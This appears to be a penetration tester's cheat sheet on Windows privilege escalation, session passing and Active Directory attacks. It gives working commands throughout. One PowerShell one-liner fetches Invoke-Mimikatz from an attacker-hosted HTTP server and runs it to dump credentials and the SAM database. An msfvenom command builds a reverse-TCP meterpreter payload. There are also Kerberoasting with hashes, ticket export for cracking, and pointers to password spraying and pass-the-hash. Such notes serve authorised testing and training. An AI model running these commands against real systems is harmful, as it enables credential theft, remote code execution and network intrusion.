         ```

### Privilege Escalation - Windows

* PowerShell Empire has some great PS1 scripts readily available such as `Invoke-Watson` and `Invoke-MS16032` as examples. Their `Mimikatz.ps1` is also great. These can be accessed at `/usr/share/powershell-empire/empire/server/data/module_source/`
* Lots of people seem to forget that Windows binaries are readily available on Kali.&#x20;
  * `/usr/share/windows-binaries`
* Unable to get Mimikatz onto a machine? Simply host a http server and execute the following:
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.10.1:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds`&#x20;
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.164:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -Command lsadump::sam`
* Mimikatz errors? Need to downgrade your version? Use the version availabke at [this link](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/d72fc2cca1df23f60f81bc141095f65a131fd099/).
* Here are some good resources for Windows Privilege Escalation
  * [0x1 Gitlab](https://0x1.gitlab.io/exploit/Windows-Privilege-Escalation/#juicy-potato-abusing-the-golden-privileges)
  * [Juicy Potato Walkthrough](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505)

### Session Passing

* If you have a shell via Netcat on a Windows machine, try using Curl to download a  ps1 to the target and executing it.
  * `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f psh -o meterpreter-64.ps1`

### Active Directory

* You can perform post exploitation activities such as Kerberoasting with a machine account. This may be important if you cannot find another path to exploitation:
  * `GetUserSPNs.py -request 'DOMAIN/MACHINE$' -dc-ip DC -hashes 'LM:NTLM'`
* Basic Enumeration:
  * `net user` will enumerate all local accounts.
  * `net user /domain` will enumerate all users in the domain.
  * `net user [USER] /domain` will query the specified users.
  * `net group /domain` will list all groups in the domain.
  * `net accounts` will enumerate the domain account policy.
    * I strongly recommend using CrackMapExec or DomainPasswordSpray to perform any type of password spraying attack.
  * Run `klist` to see if there are any tickets stored in memory.
    * This can be performed with Mimikatz by running: `kerberos::list /export`&#x20;
      * These can then be cracked by using `tgsrepcrack.py` or your favorite password cracking tool.
* PowerView is your best friend when attempting to pivot. Run the following commands to get the lay of the land and perform exploitation activities.
  * `Get-NetLoggedOn -ComputerName [COMPUTER]` will return logged on users for the specified domain.
  * `Get-NetSession -ComputerName [DC]` can be useful to determine if a domain administrator has an active logon.
  * `Get-NetUser -SPN | select serviceprincipalname` Perform Kerberoasting with PowerView.
* Pass the Hash (PtH) utilizes NTLM hashes. I won't go deep into it here, however this can be accomplished with nearly every tool at your disposal
* Overpass the Hash allows us to utilize a users NTLM hash to obtain a Kerberos TGT or service ticket.&#x20;
  * After conducting this attack we can use any tooling that relies on Kerberos authentication rather than NTLM.&#x20;
    * PsExec is a great example of a tool that would benefit from this.
* Other attacks such as Silver Tickets and and Pass the Ticket have plenty of documentation online. Consult online guides when encountering this.
